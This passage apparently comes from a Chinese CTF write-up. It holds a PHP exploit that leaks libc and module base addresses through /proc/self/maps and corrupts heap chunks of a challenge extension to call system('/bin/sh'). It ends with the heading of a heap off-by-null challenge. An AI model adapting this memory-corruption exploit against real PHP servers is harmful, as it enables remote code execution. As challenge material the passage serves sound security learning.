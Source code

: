 ```php
    $addr = dechex($addr);
    $addr = hex2bin($addr);
    $addr = strrev($addr);
    $addr = str_pad($addr, 8, "\x00");
    return $addr;
}

function leakaddr($buffer){
    global $libc, $mbase;
    $p = '/([0-9a-f]+)\-[0-9a-f]+ .* \/usr\/lib\/x86_64-linux-gnu\/libc.so.6/';
    $p1 = '/([0-9a-f]+)\-[0-9a-f]+ .* \/home\/l1qu1d\/pwn\/chall\/php_pwn\/numberGame\/numberGame.so/';
    preg_match_all($p, $buffer, $libc);
    preg_match_all($p1, $buffer, $mbase);
    return "";
}

ob_start("leakaddr");
include("/proc/self/maps");
$buffer = ob_get_contents();
ob_end_flush();
leakaddr($buffer);
$libc_base = hexdec($libc[1][0]);
$game_base = hexdec($mbase[1][0]);
echo "Libc base => " . dechex($libc_base) . "\n";
echo "game base => " . dechex($libc_base) . "\n";


$offset = ($game_base + 0x4008) & 0xffffffff;
$system = $libc_base + 0x58750;
echo "offset => " . dechex($offset) . "\n";
echo "system => " . dechex($system) . "\n";


add_chunk(5, [0, 0, 0, 0x80000000, 0], "GeekCmore");
add_chunk(5, [0xdeadbeef, 0xdeadbeef, 0xdeadbeef, 0xdeadbeef, 0xdeadbeef], "GeekCmore");
add_chunk(1, [0], "/bin/sh");
show_chunk(0);
edit_chunk(0, 18, $offset);

edit_name(1, substr(p64($system), 0, 6));
edit_name(2, "1")
?>
```

### 堆off by null：PwnShell

题目还是一个典型的堆菜单，分析结构体有点抽象，感觉是为了埋洞之后方便利用搞的：

![image](https://0xfff-1302812534.cos.ap-shanghai.myqcloud.com/img/image-20250404164958-au287x1.png)
